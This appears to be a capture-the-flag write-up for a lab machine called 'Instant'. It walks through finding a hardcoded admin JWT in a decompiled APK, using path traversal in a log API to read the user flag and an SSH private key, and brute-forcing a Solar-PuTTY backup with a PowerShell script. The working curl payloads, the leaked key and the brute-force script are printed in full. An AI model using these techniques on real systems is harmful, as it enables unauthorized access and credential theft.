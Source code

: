 
starting with nmap 

```bash
sudo nmap  -sC -sV -T4 -p- -oN instant 10.129.198.124
```

![[Pasted image 20241015232055.png]]


just a website 

```
add instant.htb to /etc/hosts
```

this website had a link to download an ==apk ==file other than that nothing really interesting

using apktool , let's decompile this file

```bash
apktool d instant.apk -o instant-ap
```
![[Pasted image 20241015232418.png]]

after two 2000 years of scrolling on those files 

I found 2 interesting information

1 . the file /instant/instant-apk/res/xml/network_security_config.xml

mention 2 subdomains
```xml
<?xml version="1.0" encoding="utf-8"?>

<network-security-config>

<domain-config cleartextTrafficPermitted="true">

<domain includeSubdomains="true">mywalletv1.instant.htb</domain>

<domain includeSubdomains="true">swagger-ui.instant.htb</domain>

</domain-config>

</network-security-config>
```

2 . potential jwt of an admin in instant/instant/smali/com/instantlabs/instant/AdminActivities.smali

```java
.class public Lcom/instantlabs/instant/AdminActivities;
.super Ljava/lang/Object;
.source "AdminActivities.java"

move-result-object v1

    const-string v2, "Authorization"

    const-string v3, "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

```


let's check the subdomains

it's seems like an api 

![[Pasted image 20241015233002.png]]



an intersting API , that allow the user to read log , but we are not authorized to use it 
![[Pasted image 20241015233112.png]]

```bash
curl curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=%2Fhome%2Fshirohige%2Fuser.txt" -H  "accept: application/json"
```

I tried the ==jwt key== founded earlier and it works 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2Fuser.txt" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"/home/shirohige/logs/../../../../../../../../home/shirohige/user.txt":["c8793e869c888292d6850a39cbc373c7\n"],"Status":201}
```


let's grab the ssh key 

```bash
 curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fshirohige%2F.ssh%2Fid_rsa" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1874  100  1874    0     0  16812      0 --:--:-- --:--:-- --:--:-- 16882
{
  "/home/shirohige/logs/../../../../../../../../home/shirohige/.ssh/id_rsa": [
    "-----BEGIN RSA PRIVATE KEY-----\n",
    "MIIEoQIBAAKCAQEAiOfpiPsPftIWtmWT1x9unQtR0srvDPUGhDjgjn3UEBejx2vh\n",
    "qlTJ+8NrrA1PcQeSuiGm6oB727HSZFrI6Pd5rmRUAMRzRxjwCnMqblmkKLZPv70x\n",
    "wh8AYvJf1z3UQ7TRN24kO7pL/6mDGBxxu9kKVBv0hD3AIkrCmRtplWzhWPEvVuEx\n",
    "c8ARVrE20QBOSWXu1o8dZ1h7VPlJ/lfBs0d2FVc+M9x4LCkjjrNkZhtCnVMFMq2W\n",
    "3D3JmfBZbbo1yYUXqKlbGr4D0cabK0PLb7RUZy+2HNdcNfvOIALs0pkO1FADoTgA\n",
    "fLyUlVnu70aRQdYhGx8eY/UTkDQrrZMtI5dCxQIDAQABAoH/MbTxdhprqmrfadGz\n",
    "dLRBUHp/MNsJFNMnodAwB7QsyP4Va45Be38y4L5ZCcUX3aWL0lHglRwD6akATM/h\n",
    "+mquD9HfJbtL3QzQcPQ0Qc9G2EjASAVik9zBnZxVUSDBWzQ6yLAndFZAN7RUHSPS\n",
    "9aOfUZdZxZkq+sNpNzfDXTRI7RwjQx+lrW8AVdCQzdFWLUgpKrEDW87IgacgkgXM\n",
    "TGYv+2xlNd8fN6/1NKOoH2rsptk8LxLc5wtGXmGr97WtcdZfh2oUfiSGAc50a1yb\n",
    "MggySeWqPjN2lgt1hUXqDgRXCstN3RwUN7NfpUvoE5r9J/9NCLz5RFJ4+rTYcY4v\n",
    "oRvNAoGBALwCd1frvYDD/m5R8Q5XWXXe4j2pBDA71EpvlO0eiLpJkLXEQhkct4Od\n",
    "nKZzf7lVaQdxacC4W3Swn7rB4VL+AvKQmhfVWcAp6QRYYoQ6f2VWepNaeeXfIXAg\n",
    "vdm1vg+QRToZNbyfkFhuh1OfThWdHVnwh57aZDgC+eFCS/u8mV8zAoGBALpqXwvw\n",
    "/BS7qPgnXun4pMcRXvlb/g5/kRmgaWTraDqe4kmYrphwZyBcnJyWMJBZ0NXRlXCx\n",
    "W2wrU0xoA//X9/gyOEIPckbkTQ/H+Zoo9/Dvr27ZDdOafQc84vpsWFqZu7aoUC9l\n",
    "mGHdOVpUWusTt0S8rDkFun7CPtCtRuO9RzYnAoGAdhwKg0ZKd2EpLn71s6+2OLE7\n",
    "accLJY4AcH6mjUv4Uycx7K6NY59BvkI+jebTH0gDwjRCXlqywZzPy5BPEEcY7O9g\n",
    "joZuaqUpiJxJz428SJpKSNW27Gz/YaSAAAwHiVl10+jQdF29XYCaLTNP544bSUws\n",
    "tuO1v+ZGundeqpextjcCgYBDvL9I0Ypn5kDh2zyL/EOz6kX+ikTo88W/8CAcAcZf\n",
    "9rf3UjmvPrjac4ydAZ4n9dsCtyN8TZYQ2jVsgCdj4hBC6cyzhHVb+T1fTKUQNW7S\n",
    "5+VxfAGgMHTaGm/H23LHiTFCkCqC7oHOndpnTluzK/jeS0ixd7lqsh6tKSmnO3IS\n",
    "5QKBgQC3dxOmpw1Dz8NkE1o9Lc4gALsC8Mt0K9XU8Djn0X5bzZJ7GRx+QM0tOjf5\n",
    "rHeMqTproydbKcbTF4aQ9V1RORcqgoV013eRcaKnEXLuZwg0qbBeHx5UHKwyNr7l\n",
    "x7WHyKl+y+P2Taud0Kcmd9DJ/yQJ4wFdn0cbInxpcNKthZZLhw==\n",
    "-----END RSA PRIVATE KEY-----\n"
  ],
  "Status": 201
}
```


I saved the key in file and asked chatgpt how to clean it

```bash
sed  -i 's/[[:space:]]*"//g; s/\\n//g; s/,//g' user_rsa 
chmod 600 user_rsa
ssh shirohige@instant.htb -i user_rsa
```

![[Pasted image 20241015234411.png]]

I found this backup file 
```bash
/opt/backups/Solar-PuTTY/sessions-backup.dat
```


this tool can decrypt this but we need password ,  and it's only works on windows 


so with the help of chatgpt again , I made a small powershell script to bruteforce this

```powershell

$rockyouPath = "C:\Users\d0s3nt\Documents\instant\rockyou.txt"
$decryptExePath = "C:\Users\d0s3nt\Documents\instant\SolarPuttyDecrypt.exe"
$sessionsFilePath = "C:\Users\d0s3nt\Documents\instant\sessions-backup.dat"

function Invoke-Bruteforce {
    Get-Content -Path $rockyouPath | ForEach-Object {
        $password = $_.Trim()
        try {
            # Run the decryption executable with the current password
	    Write-Host $password
            & $decryptExePath $sessionsFilePath $password
        }
        catch {
            Write-Output "Error: $_"
        }
    }
}

Invoke-Bruteforce
```

after transferring the files , and running the script

![[Pasted image 20241016025744.png]]


![[Pasted image 20241016025903.png]]
